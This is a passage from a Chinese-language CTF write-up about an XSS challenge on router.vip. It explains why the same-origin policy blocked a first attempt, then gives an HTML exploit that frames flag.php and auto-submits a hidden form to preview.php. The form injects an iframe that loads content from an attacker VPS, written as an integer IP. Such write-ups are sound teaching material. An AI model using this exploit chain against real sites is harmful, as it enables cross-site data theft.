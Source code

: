 ![shell1](http://momomoxiaoxi.com/img/post/0ctf/shell1.png)

说明，现在发送数据这个功能是成功的。(其实，这里没有获取到数据，只是https协议的一些乱码数据)

但是，为什么现在没有弹出真正的flag呢，因为iframe这种方式会新建一个层，这样就不再在一个源上了。

```
XMLHttpRequest cannot load https://router.vip/flag.php. No 'Access-Control-Allow-Origin' header is present on the requested resource. Origin 'https://104.224.169.90' is therefore not allowed access.
```

chrome会报这个错。梳理一下现在的逻辑，我们在preivew页面，让其iframe引用一个html，然后执行html的里面的js，js中对https://router.vip/flag.php发送请求。但是，因为router.vip/flag.php的头没有设置跨域资源共享。我们也没办法去控制router.vip，使其增加头'Access-Control-Allow-Origin' '*';

**所以，这里就gg了。。**

然后，我们想到了出题人博客中，火日大佬的那种思路，两个iframe互相通信，就是前面题目的思路。

用一个iframe去触发xss，新建一个iframe，加载我们VPS的index.html.

index.html,有两个iframe，第一个iframe访问flag.php,第二个页面iframe访问preview页面，同时往preview构造一个表单触发xss，让其再iframe一个VPS的数据。。。说起来好混乱

上代码：

index.html

```html
<html>
<head>
</head>
<body>
<iframe id='1' src='https://router.vip/flag.php'>
</iframe>

<form id="exploit" action="https://router.vip/preview.php" method="POST" target="profile">
    <input name="payload" type="hidden" value="<iframe src=\\3396350939">
</form>

<iframe id='2' name="profile" src='https://router.vip/preview.php'>
</iframe>
<script>document.getElementById('exploit').submit();</script>
</body>
</html>
```

然后，在另外一个VPS（3396350939）上去显示前一个iframe的数据

其实这样还是违反同源的，主要这里还是用iframe这个标签触发。。。导致，会新生成一个源和本来的不一样。

画了个草图：

![origin1](http://momomoxiaoxi.com/img/post/0ctf/origin1.png)

整个逻辑就是这样，因为iframe会生成一个源，iframe1，iframe2之所以同源是因为他们两在同一个域。

回顾33c3的题 **yolovault**

题目内容参考这两个博客：
